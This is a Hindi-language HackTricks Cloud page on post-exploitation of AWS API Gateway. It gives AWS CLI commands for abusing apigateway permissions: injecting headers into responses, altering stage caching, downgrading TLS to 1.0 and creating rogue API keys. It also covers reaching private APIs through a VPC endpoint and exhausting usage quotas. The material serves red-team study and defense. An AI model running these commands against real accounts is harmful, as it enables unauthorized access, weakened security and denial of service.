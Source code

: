# AWS - API Gateway के बाद की जांच

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग तरकीबें साझा करें.

</details>

## API Gateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### अनुपलब्ध APIs तक पहुंच

आप [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) पर एक endpoint बना सकते हैं जिसकी सेवा com.amazonaws.us-east-1.execute-api है, इस endpoint को उस नेटवर्क में उजागर करें जहां आपकी पहुंच है (संभवतः एक EC2 मशीन के माध्यम से) और एक सुरक्षा समूह असाइन करें जो सभी कनेक्शनों की अनुमति देता है।\
फिर, EC2 मशीन से आप endpoint तक पहुंच सकते हैं और इस प्रकार गेटवे API को कॉल कर सकते हैं जो पहले उजागर नहीं की गई थी।

### Usage Plans DoS

**Enumeration** अनुभाग में आप देख सकते हैं कि कैसे **usage plan की प्राप्ति** की जा सकती है। यदि आपके पास कुंजी है और यह **प्रति माह X उपयोगों** तक **सीमित** है, तो आप **बस इसका उपयोग कर सकते हैं और DoS का कारण बन सकते हैं**।

**API Key** को बस **`x-api-key`** कहलाने वाले **HTTP header** में **शामिल** किया जाना चाहिए।

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateGatewayResponse` और `apigateway:CreateDeployment` अनुमतियां हैं, वह **मौजूदा Gateway Response को संवेदनशील जानकारी लीक करने या दुर्भावनापूर्ण स्क्रिप्ट्स को निष्पादित करने के लिए कस्टम हेडर्स या प्रतिक्रिया टेम्पलेट्स शामिल करने के लिए संशोधित कर सकता है**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: संवेदनशील जानकारी का लीक होना, दुर्भावनापूर्ण स्क्रिप्ट्स का निष्पादन, या API संसाधनों तक अनधिकृत पहुँच।

{% hint style="info" %}
परीक्षण की आवश्यकता है
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

अनुमतियों `apigateway:UpdateStage` और `apigateway:CreateDeployment` वाला एक हमलावर **मौजूदा API Gateway स्टेज को संशोधित करके ट्रैफ़िक को एक अलग स्टेज पर पुनर्निर्देशित कर सकता है या कैशिंग सेटिंग्स को बदलकर कैश किए गए डेटा तक अनधिकृत पहुँच प्राप्त कर सकता है**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: कैश किए गए डेटा तक अनधिकृत पहुंच, API ट्रैफिक में व्यवधान या इंटरसेप्टिंग।

{% hint style="info" %}
परीक्षण की आवश्यकता है
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

अनुमतियों `apigateway:PutMethodResponse` और `apigateway:CreateDeployment` वाला हमलावर **मौजूदा API Gateway REST API मेथड के मेथड रिस्पॉन्स को संशोधित कर सकता है ताकि वह कस्टम हेडर्स या रिस्पॉन्स टेम्प्लेट्स शामिल करे जो संवेदनशील जानकारी को लीक करें या मालिशियस स्क्रिप्ट्स को निष्पादित करें**।
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: संवेदनशील जानकारी का लीक होना, दुर्भावनापूर्ण स्क्रिप्ट्स का निष्पादन, या API संसाधनों तक अनधिकृत पहुँच।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateRestApi` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **API Gateway REST API सेटिंग्स को संशोधित कर सकता है ताकि लॉगिंग को अक्षम किया जा सके या न्यूनतम TLS संस्करण को बदला जा सके, जिससे API की सुरक्षा कमजोर हो सकती है**।
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: API की सुरक्षा को कमजोर करना, अनधिकृत पहुंच की अनुमति देना या संवेदनशील जानकारी को उजागर करना संभव है।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

अनुमतियों `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, और `apigateway:CreateUsagePlanKey` वाला हमलावर **नए API कुंजियाँ बना सकता है, उन्हें उपयोग योजनाओं के साथ जोड़ सकता है, और फिर इन कुंजियों का उपयोग APIs तक अनधिकृत पहुंच के लिए कर सकता है**।
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**संभावित प्रभाव**: API संसाधनों तक अनधिकृत पहुँच, सुरक्षा नियंत्रणों को दरकिनार करना।

{% hint style="info" %}
परीक्षण की आवश्यकता है
{% endhint %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>शून्य से नायक तक</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
